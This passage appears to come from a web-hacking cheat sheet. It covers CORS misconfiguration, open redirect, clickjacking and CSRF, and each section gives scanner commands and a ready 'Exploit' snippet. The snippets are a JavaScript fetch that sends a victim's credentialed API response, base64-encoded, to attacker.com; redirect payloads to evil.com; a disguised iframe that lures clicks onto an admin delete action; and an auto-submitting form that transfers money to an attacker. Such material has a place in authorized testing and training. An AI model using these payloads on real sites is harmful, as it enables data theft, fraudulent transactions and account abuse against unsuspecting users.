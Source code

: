 **Exploit:**
```javascript
// If ACAO: * with credentials
fetch('https://target.com/api/sensitive', {credentials: 'include'})
.then(r=>r.text()).then(d=>fetch('//attacker.com?data='+btoa(d)))
```

## **OPEN REDIRECT**
*Present when: Redirect destinations come from untrusted user input*

**Manual:** Modify redirect parameters to external domains
**Automated:**
```bash
openredirex -l urls.txt
nuclei -u target.com -t redirect/
```

**Exploit:**
```
?redirect=//evil.com
?url=https://evil.com
?next=/\evil.com
?return_to=//evil.com%2e.target.com
```

## **CLICKJACKING**
*Present when: X-Frame-Options/CSP frame-ancestors missing*

**Manual:** Check response headers for frame protection
**Automated:**
```bash
clickjacker -u target.com
nuclei -u target.com -t clickjacking/
```

**Exploit:**
```html
<iframe src="https://target.com/admin/delete?id=123" style="opacity:0.1"></iframe>
<div style="position:absolute;">CLICK HERE FOR FREE MONEY!</div>
```

## **CSRF (CROSS-SITE REQUEST FORGERY)**
*Present when: State-changing requests lack proper anti-CSRF tokens*
[Cross-Site Request Forgery (CSRF)](../../Web%20Application/Request%20Forgery/Cross-Site%20Request%20Forgery%20(CSRF).md)
**Manual:** Remove CSRF tokens, check if requests still work
**Automated:**
```bash
xsrfprobe -u target.com
burp csrf scanner extension
```

**Exploit:**
```html
<form action="https://target.com/transfer" method="POST">
<input name="to" value="attacker">
<input name="amount" value="1000">
</form>
<script>document.forms[0].submit()</script>
```
